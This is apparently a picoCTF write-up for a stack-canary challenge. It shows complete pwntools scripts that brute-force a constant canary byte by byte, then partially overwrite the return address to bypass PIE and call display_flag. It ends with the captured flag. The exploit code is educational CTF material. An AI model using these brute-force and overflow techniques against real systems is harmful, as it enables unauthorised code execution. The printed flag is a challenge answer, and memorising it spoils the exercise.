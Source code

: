 # CanaRy

> This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this [program] (vuln) located in /problems/canary_5_f37171114d0d9fc71194842bb8b7bb34. [Source](vuln.c).

We are given the binary which is 32 bit binary and a source code.  
The program simply read `canary.txt` file then put its content in memory. This means the canary is constant and we can brute force it.

Upon disassembling the binary, I found out that our input will be stored at the address `ebp-0x30`, while the canary is in `ebp-0x10` which means we got 0x20 bytes of padding before we reach the canary.

```py
from pwn import *
LEN_CANARY = 4
canary = ""
context.log_level = 'error'
b = '/problems/canary_5_f37171114d0d9fc71194842bb8b7bb34/vuln'

# Brute canary
while len(canary) < LEN_CANARY:
    for i in [chr(x) for x in range(0x100)]:
        r = process(b)
        p = 'A'*0x20    
        p += canary
        p += i                                  # test whether this character gives us error or not

        length = len(p)
        r.recvuntil('> ')
        r.sendline(str(length))
        r.recvuntil('> ')
        r.send(p)
        t = r.recvline()

        r.close()
        if('Ok...' in t):                       # the character doesn't give us error which means our guess was correct
            print canary
            canary += i
            break
```

After we guess all the characters, we need to redirect program flow to call `display_flag` function. Unfortunately it seems that PIE is active :
```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```
pwndbg> x display_flag
0x7ed <display_flag>:   0x53e58955
```

We only know last 3 nible of the function, since this function address is most likely on the same page as the main function, we can assume that the leading 2 bytes are the same as main function so we only need to brute one byte.

```py
# Brute display_flag function address (we know last 3 nible of the address)
FLAG = ''
while FLAG == '':
    r = process(b)
    p = 'A'*0x20 + canary
    p += 'A'*(0x30-len(p))+'BBBB' # BBBB -> ebp
    p += '\xed\x97' # ASLR -> guessing
    r.recvuntil('> ')
    r.sendline(str(len(p)))
    r.recvuntil('> ')
    r.send(p)
    r.recvline()
    try:
        FLAG = r.recvline()
    except:
        pass
```

And finally this is the complete script
```py
from pwn import *
LEN_CANARY = 4
canary = ""
context.log_level = 'error'
b = '/problems/canary_5_f37171114d0d9fc71194842bb8b7bb34/vuln'

# Brute canary
while len(canary) < LEN_CANARY:
    for i in [chr(x) for x in range(0x100)]:
        r = process(b)
        p = 'A'*0x20
        p += canary
        p += i

        length = len(p)
        r.recvuntil('> ')
        r.sendline(str(length))
        r.recvuntil('> ')
        r.send(p)
        t = r.recvline()

        r.close()
        if('Ok...' in t):
            print canary
            canary += i
            break

# Brute display_flag function address (we know last 3 nible of the address)
FLAG = ''
while FLAG == '':
    r = process(b)
    p = 'A'*0x20 + canary
    p += 'A'*(0x30-len(p))+'BBBB' # BBBB -> ebp
    p += '\xed\x97' # ASLR -> guessing
    r.recvuntil('> ')
    r.sendline(str(len(p)))
    r.recvuntil('> ')
    r.send(p)
    r.recvline()
    try:
        FLAG = r.recvline()
    except:
        pass

print FLAG
```

Test on server:
```
an0nvi@pico-2019-shell1:/problems/canary_5_f37171114d0d9fc71194842bb8b7bb34$ python2 ~/asdf.py

l
lV
lV!
picoCTF{cAnAr135_mU5t_b3_r4nd0m!_2a16c6a0}
```

Flag: picoCTF{cAnAr135_mU5t_b3_r4nd0m!_2a16c6a0}
